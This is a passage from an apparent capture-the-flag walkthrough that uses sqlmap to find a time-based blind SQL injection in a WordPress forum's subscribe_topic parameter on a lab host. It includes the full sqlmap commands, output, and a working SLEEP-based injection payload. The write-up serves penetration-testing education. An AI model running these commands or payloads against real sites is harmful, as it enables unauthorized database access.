 There’s definitely SQL injection going on there.

#### sqlmap Identify

Time-based SQL injection is a pain to do manually, so I’ll turn to `sqlmap`. Given what I know about the vulnerability and that it’s WordPress (so probably using MySQL), I’ll give it parameters to speed up the test:

```

oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T
...[snip]...
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] 
[21:36:30] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[21:36:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('asgarosforum_unique_id=620c1cd656c1a;asgarosforum_unread_cleared=1000-01-01%...%3A00%3A00'). Do you want to use those [Y/n] 
[21:36:32] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:36:33] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[21:36:33] [INFO] testing for SQL injection on URI parameter '#1*'
[21:36:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:36:33] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[21:36:46] [WARNING] URI parameter '#1*' does not seem to be injectable
[21:36:46] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. Rerun without providing the option '--technique'. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
...[snip]...

```

It doesn’t find anything. Since I know it’s there, I’ll try more aggressively (adding `--level 5`). This takes a bit, but finds the injection:

```

oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5
...[snip]...
[21:41:56] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
[21:42:07] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 time-based blind - Parameter replac
e' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value?
 [Y/n] 
[21:43:45] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 481 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind 
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: https://phoenix.htb:443/forum/?subscribe_topic=(CASE WHEN (8939=8939) THEN SLEEP(5) ELSE 89
39 END)
---
[21:45:04] [INFO] the back-end DBMS is MySQL
[21:45:04] [WARNING] it is very important to not stress the network connection during usage of time-base
d payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
...[snip]...
```